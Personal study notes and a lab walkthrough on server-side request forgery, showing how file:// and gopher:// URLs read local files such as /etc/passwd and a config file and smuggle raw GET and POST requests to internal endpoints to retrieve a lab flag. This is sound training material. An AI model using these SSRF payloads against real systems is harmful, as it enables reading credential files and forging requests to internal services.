 there are other `URL` schemes other than `HTTP`, we can use `file` and `gopher` as well which are very old `URL Schemes` here are examplesof what they look like
- `file:///etc/passwd`
- `file:///c:/windows/win.ini`
- `gopher:///etc/passwd`

####  file URL
the `file` URL scheme is not supported by `PYTHON REQUESTS LIBRARY` as seen here
![[Pasted image 20250108182117.png]]
but if we switch the `UTILITY` to `curl` it does work, therefore `curl` supports the `file` URL
![[Pasted image 20250108182230.png]]

#### Gopher URL
`gopher` is a url protocol commonly forgotten by `ADMINISTRATORS` that can be utilize to bypass restrictions of traditional `SSRF`. 

basic example of `gopher`:

setup `nc -lvnp 9000` listener
utilize curl for gopher `curl gopher://127.0.0.1:9000/hello_gopher`
- we can see the connection from `gopher`, and we can also see it took off the first letter of `h` when connecting - due to this we want to preface a command with `_`
![[Pasted image 20250108183135.png]]
`gopher` can also be utilized to recreate `GET` requests - here is an example of what a basic `GET` request looks like
```http
GET /hello_gopher HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: curl/7.74.0
Accept: */*
```
lets try to recreate this with `gopher`
- we need to encode the ` ` spaces with `%20` to make a valid request

what it looks like without `URL Encoding` the spaces
```bash
curl gopher://127.0.0.1:9000/_GET /hello_gopher HTTP/1.1
```
this needs `URL Encoding` because `gopher` doesn't recognize the spaces unless they are `URL-Encoded`, we can see here that everything after `GET` was deleted
![[Pasted image 20250108183803.png]]
what it looks like `WITH` `URL Encoding`
```bash
curl gopher://127.0.0.1:9000/_GET%20/hello_gopher%20HTTP/1.1
```
now we can see that the first line mimics the first like of a  `GET`request  was properly sent 
![[Pasted image 20250108184045.png]]
***Depending on the server, in order to properly process a request might require additional headers depending on the server and how processing works*** 

- to address this we may need to add a `LINE FEED CHARACTER`, `(%0a)` and a `HOST` header

this is an example of this being required:

if we submit this `gopher` query `gopher://127.0.0.1:80/_GET%20/status%20HTTP/1.1` the server will not process it - it is looking for a `LINE FEED CHARACTER` 
![[Pasted image 20250108185333.png]]
but if we add the `LINE FEED CHARACTER` with `gopher://127.0.0.1:80/_GET%20/status%20HTTP/1.1%0a` the server processes the `/status` endpoint
![[Pasted image 20250108185508.png]]
now `gopher` can also send `POST` requests but it is up to the server if it can accept it, if we change the request to `gopher://127.0.0.1:80/_POST%20/status%20HTTP/1.1%0a`
- we get a `405 method not allowed` error
![[Pasted image 20250108215218.png]]
if we look at the `BURP` request we are able to see that the `BROWSER` `DOUBLE URL ENCODED` our payload
![[Pasted image 20250108215629.png]]
we can send the portion to `DECODER` and `Double DE Encode` it to see that it was double encoded
- all `NON-Alphanumerical` characters got double encoded, so `://`, `/`, `spaces as %2520`
- the application is `DOUBLE ENCODING` because it is being processed twice, the application first processes it as a request to `/preview`, and this request triggers the `SSRF` at `127.0.0.1/status`, Since the payload values are double encoded, the application does not fully decoded the payload until it processes the second request
![[Pasted image 20250108215725.png]]

***If we were to replicate this attack from curl or in the Repeater tool of Burp Suite, we would need to double encode any non-alphanumeric characters as well.***

#### Labs
`1.`
![[Pasted image 20250108220207.png]]
navigate to `http://localhost/status` using the `SSRF` vulnerability
![[Pasted image 20250108220311.png]]
we are able to get the location of the `config file`
![[Pasted image 20250108220337.png]]
now utilize the payload `file:///app/config.ini` to get the contents of the file
- now we got the `API` key & `Password`
`password = twasbryllyg`
`apiKey = chesirecat`
![[Pasted image 20250108220453.png]]
we are unable to grab the flag with `file:///protectedflag` payload
![[Pasted image 20250108220846.png]]
we need to feed a `POST` request with the `credentials` that we found to the `/protectedflag` endpoint in order to get the flag
```http
gopher://127.0.0.1:80/_POST%20/protectedflag%20HTTP/1.1%0ACookie:test
```
in order to test how to make a proper `gopher` request I am testing it on my `local KALI` machine, we can see that `%0A` is the `encoded` line that we use with gopher to make a new line in a `request`
![[Pasted image 20250108221441.png]]
now lets add the `parameters` to authenticate
`password = twasbryllyg`
`apiKey = chesirecat`
```http
gopher://127.0.0.1:80/_POST%20/protectedflag%20HTTP/1.1%0Apassword:twasbryllyg%0AapiKey=chesirecat
```
now lets test this against our own kali with `curl`
- post request looks good, lets try it
![[Pasted image 20250108221719.png]]
looks like when trying it, we actually need a `GET` request instead of a `POST` because we are trying to `GRAB` the contents of `/protectedflag` not `POST` content to this endpoint.

we also need to add `%0a` to process the request or it will not load because the request is not being finished.
```bash
gopher://127.0.0.1:80/_GET%20/protectedflag%20HTTP/1.1%0APassword:twasbryllyg%0AapiKey=chesirecat%0a
```
when trying this payload the formatting is wrong which makes us fail
![[Pasted image 20250108222058.png]]
after reviewing a video, we actually dont need to utilize the `API-KEY` because we have the password, to `submit` the password just add the field the the `URL`
```bash
http://ssrf-sandbox/protectedflag?password=twasbryllyg
```
`file` was utilized to grab the `password` and we just need to utilize the password to get the key
![[Pasted image 20250108231301.png]]
W
![[Pasted image 20250108231415.png]]

